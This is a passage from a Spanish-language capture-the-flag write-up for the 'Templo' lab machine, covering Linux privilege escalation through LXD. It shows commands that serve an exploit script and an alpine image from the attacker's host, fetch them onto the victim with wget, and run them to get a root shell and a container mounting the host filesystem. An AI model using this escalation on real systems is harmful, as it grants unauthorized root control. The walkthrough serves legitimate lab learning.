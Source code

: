 Analizándolo un poco, tenemos que mandar este script y una imagen de **alpine** que utilizará el script para crear la montura de la raíz de la máquina víctima.

Para la imagen, ocuparemos la que está dentro del siguiente repositorio:
* <a href="https://github.com/saghul/lxd-alpine-builder.git" target="_blank">Repositorio de saghul: lxd-alpine-builder</a>

Solo necesitas clonarlo y ya deberíamos encontrar una imagen comprimida:
```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
```

Alza un servidor con **Python3** en donde tengas estos dos archivos:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Luego, descárgalos en la máquina víctima con **wget**:
```bash
rodgar@TheHackersLabs-Templo:~$ wget http://Tu_IP/46978.sh
rodgar@TheHackersLabs-Templo:~$ wget http://Tu_IP/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

Y ejecuta el script, indicándole que use la imagen de **alpine**:
```bash
./46978.sh -f alpine-v3.13-x86_64-20210218_0139.tar.gz
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+---------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE   |          UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+---------+-------------------------------+
| alpine | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64       | CONTAINER | 3.11MiB | May 30, 2025 at 12:39am (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+---------+-------------------------------+
Creating privesc
Device giveMeRoot added to privesc                  
~ # whoami
root
```
Funcionó correctamente.

Esto nos creó un contenedor llamado **privesc**, que contendrá la raíz de la máquina víctima. Lo podremos ver con el comando `lxc list`:
```bash
rodgar@TheHackersLabs-Templo:~$ lxc list
+---------+---------+---------------------+-----------------------------------------------+-----------+-----------+
|  NAME   |  STATE  |        IPV4         |                     IPV6                      |   TYPE    | SNAPSHOTS |
+---------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| privesc | RUNNING | xx.xx.xx.xx (eth0)  |  XXXX:XXXX:XXXX:XXXX:XXXX:XXXX:XXXX (eth0)    | CONTAINER | 0         |
+---------+---------+---------------------+-----------------------------------------------+-----------+-----------+
```
